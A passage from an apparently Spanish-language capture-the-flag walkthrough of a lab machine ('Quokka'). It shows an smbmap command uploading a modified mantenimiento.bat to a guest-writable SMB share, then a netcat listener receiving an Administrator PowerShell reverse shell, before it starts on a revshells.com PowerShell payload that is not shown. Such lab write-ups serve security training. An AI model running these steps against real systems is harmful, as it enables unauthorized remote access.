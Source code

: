 Por último, subimos el script **mantenimiento.bat** modificado al **SMB** y esperamos la respuesta:
```bash
smbmap -H 192.168.1.210 -u guest --upload mantenimiento.bat Compartido/Proyectos/Quokka/Código/mantenimiento.bat --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[+] Starting upload: mantenimiento.bat (356 bytes)                                                                       
[+] Upload complete
[*] Closed 1 connections
```
Recuerda que tienes que esperar 1 minuto.

Observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.210] 50790
Windows PowerShell running as user Administrador on WIN-VRU3GG3DPLJ
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
.
PS C:\Windows\system32>whoami
win-vru3gg3dplj\administrador
```
Estamos dentro.

<br>

<h3 id="revShell2">Creando Reverse Shell de PowerShell y Ejecutandola con Script mantenimiento.bat</h3>

Podemos utilizar la segunda opción de **Reverse Shell de PowerShell** de `revshells.com` para crear un script que se llame **revShell.ps1** y se ejecute de la misma manera que el método anterior.

Quedaría así el script, solamente con los **script-blocks**:

<p align="center">